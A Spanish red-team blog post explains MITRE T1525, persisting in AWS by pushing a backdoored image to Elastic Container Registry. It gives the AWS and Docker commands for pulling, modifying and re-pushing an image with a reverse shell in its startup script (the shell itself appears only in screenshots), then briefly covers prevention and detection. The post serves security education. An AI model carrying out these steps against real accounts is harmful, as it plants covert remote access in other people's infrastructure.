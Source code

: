 ```yaml
---
title: "Persistencia en AWS con implantes en imágenes de contenedores"
author: Adan Alvarez
classes: wide
excerpt: "Una de las tácticas más comunes cuando un atacante logra el acceso inicial es obtener persistencia. El objetivo de esta es mantenerse en la infraestructura pese a que se reinicie el equipo, las contraseñas o haya cualquier interrupción que pueda interrumpir el acceso inicial. Una de las técnicas utilizadas para obtener persistencia en AWS si en la cuenta se usa Amazon Elastic Container Registry (ECR) es añadiendo implantes en las imágenes de los contenedores."
categories:
  - AWS
tags:
  - Red Team
  - Persistencia
  - MITRE ATT&CK
  - Containers
---
```

Una de las tácticas más comunes cuando un atacante logra el acceso inicial es obtener persistencia. El objetivo de esta es mantenerse en la infraestructura pese a que se reinicie el equipo, las contraseñas o haya cualquier interrupción que pueda interrumpir el acceso inicial. Una de las técnicas utilizadas para obtener persistencia en AWS si en la cuenta se usa [Amazon Elastic Container Registry (ECR)](https://aws.amazon.com/es/ecr/) es añadiendo implantes en las imágenes de los contenedores.
{: style="text-align: justify;"}

Esta técnica la encontramos bajo en nombre [*Implant Container Image*](https://attack.mitre.org/techniques/T1525/) en [Mitre Att&ck](https://donttouchmynet.github.io/mitre%20att&ck/mitre-attck-defiende-teniendo-en-cuenta-las-tacticas-y-tecnicas-del-adversario/) y tiene el ID T1525.
{: style="text-align: justify;"}

Estos son los pasos que podría seguir un atacante para lograr persistencia en AWS tras conseguir un usuario con permisos al ECR:
{: style="text-align: justify;"}

En primer lugar, es necesario listar los repositorios que existen en la cuenta:
{: style="text-align: justify;"}
```
aws ecr describe-repositories
```
Tras descubrir los repositorios, se pueden listar las imágenes del repositorio con el comando:
{: style="text-align: justify;"}
```
aws ecr describe-images --repository-name NOMBREREPOSITORIO
```
Una vez obtenido el nombre del repositorio y de las imágenes, un atacante podría descargar una de ellas, modificarla añadiendo código malicioso y subirla de nuevo. Esto se podría realizar de la siguiente manera:
{: style="text-align: justify;"}

Para poder descargar imágenes necesitaremos un cliente Docker , pero antes, deberemos obtener un token de autenticación y autenticar nuestro cliente Docker al registro:
{: style="text-align: justify;"}
```
aws ecr get-login-password --region REGION | docker login --username AWS --password-stdin IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com
```
Tras la autenticación se podrá descargar una imagen, en el siguiente comando se descargará la imagen con el tag latest:
{: style="text-align: justify;"}
```
docker pull IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest
```
Una vez descargada la imagen, será posible ejecutarla en local:
{: style="text-align: justify;"}
```
docker run --detach NOMBREIMAGEN
```
Y acceder a ella para realizar modificaciones:
{: style="text-align: justify;"}
```
docker exec -it IDCONTAINER bash
```
Las modificaciones para conseguir persistencia dependerán de la imagen descargada. En el siguiente ejemplo tenemos una imagen que ejecuta al iniciar el script run_apache.sh
{: style="text-align: justify;"}

[![persistencia en AWS](https://donttouchmynet.github.io/assets/images/old/init-300x77.png)](https://donttouchmynet.github.io/assets/images/old/init.png)

Por lo tanto, un método para poder obtener persistencia es modificar el script que se ejecuta al inicio con una reverse shell:
{: style="text-align: justify;"}

[![](https://donttouchmynet.github.io/assets/images/old/modify_init-300x33.png)](https://donttouchmynet.github.io/assets/images/old/modify_init.png)

Tras realizar los cambios será necesario guardar el contenedor modificado como nueva imagen:
{: style="text-align: justify;"}
```
docker commit CONTAINERID NOMBREIMAGEN
```
Después de esto añadimos el tag que se estaba utilizando en ECR, en este caso latest:
{: style="text-align: justify;"}
```
docker tag NOMBREIMAGEN:latest IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest
```
y por último hacemos un push para que la imagen se almacene en el registro de AWS.
{: style="text-align: justify;"}

docker push IDCUENTAAWS.dkr.ecr.REGION.amazonaws.com/NOMBREREPOSITORIO:latest

Tras esto solo quedará esperar que la nueva imagen se ejecute y recibir la reverse shell:
{: style="text-align: justify;"}

[![persistencia en AWS](https://donttouchmynet.github.io/assets/images/old/reverse_shell-300x63.png)](https://donttouchmynet.github.io/assets/images/old/reverse_shell.png)

Además de manualmente, esta técnica puede ser realizada de forma algo más automática mediante [CCAT](https://github.com/RhinoSecurityLabs/ccat).
{: style="text-align: justify;"}

La prevención de esta técnica pasa por una correcta gestión de permisos. Además, podemos realizar verificaciones periódicas de integridad para confirmar que las imágenes no han sido modificadas. Para tratar de detectar esta técnica es importante controlar las peticiones a [Amazon Elastic Container Registry](https://aws.amazon.com/es/ecr/).
{: style="text-align: justify;"}
